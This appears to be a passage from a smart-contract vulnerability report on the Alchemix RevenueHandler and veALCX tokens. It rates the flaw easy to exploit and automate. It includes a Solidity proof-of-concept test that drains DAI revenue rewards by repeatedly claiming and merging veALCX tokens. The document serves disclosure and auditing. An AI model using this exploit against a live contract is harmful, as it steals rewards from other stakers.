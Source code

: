 
Capital for the attack: Gas to execute the transactions. Some amount of BPT to invest to lock to get the VeAlcx tokens. BPT can be big, the the bigger amount of the rewards. Can theft most of the reward token in the contract. 

Easy to exploit and easy to be automated. 

## Proof of concept
#  Proof of concept

I created the POC code as follow: 

```solidity
function testClaimRevenueMerge_Hacked() external {
        address owner = revenueHandler.owner();
        // Setup the scenario when PoolAdapter is zero 
        hevm.prank(owner);
        revenueHandler.setPoolAdapter(dai, address(0x00));
        hevm.stopPrank();
        // Start of the test case
        uint256 revAmt = 1000e18; // Revenue is 1000 DAI 
        address attacker = address(this);
        address Alice = address(0x11223344); 
        address Bob = address(0x55667788);
        uint256 count = 10; 
        uint256[] memory tokenIds = new uint256[](count); 
        uint256 tokenId1; 
        uint256 tokenId2; 
        uint256 claimable; 

        for (uint256 i = 0; i < count; i++) {
           tokenIds[i] =  createVeAlcx(attacker, TOKEN_1, 4 weeks, false);
        }
               
        uint256 tokenId7 = createVeAlcx(Alice, 90*TOKEN_1, 4 weeks, false);        

        _accrueRevenueAndJump1Epoch(revAmt);       

        console2.log("Choose the block.timestamp to be exact time that have modulo WEEK equal to 0"); 
        hevm.warp((block.timestamp / WEEK) * WEEK + WEEK );
        console2.log("Current block.timestamp: %s", block.timestamp);
        console2.log("Balance of the revenueHandler: %s",IERC20(dai).balanceOf(address(revenueHandler)));
        
        for (uint256 i = 0; i < count-1; ++i) {
            
            revenueHandler.checkpoint();
            console2.log("i: %s", i);
            tokenId1 = tokenIds[i]; 
            tokenId2 = tokenIds[i+1]; 
            claimable = revenueHandler.claimable(tokenId1, dai);
            console2.log("claimable: %s", claimable);
            revenueHandler.claim(tokenId1, dai, address(0x00), claimable, address(this));
            veALCX.merge(tokenId1, tokenId2);

        }
        
        revenueHandler.checkpoint();
        claimable = revenueHandler.claimable(tokenIds[count-1], dai);            
        console2.log("claimable: %s", claimable);
        revenueHandler.claim(tokenIds[count-1], dai, address(0x00), claimable, address(this));
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
```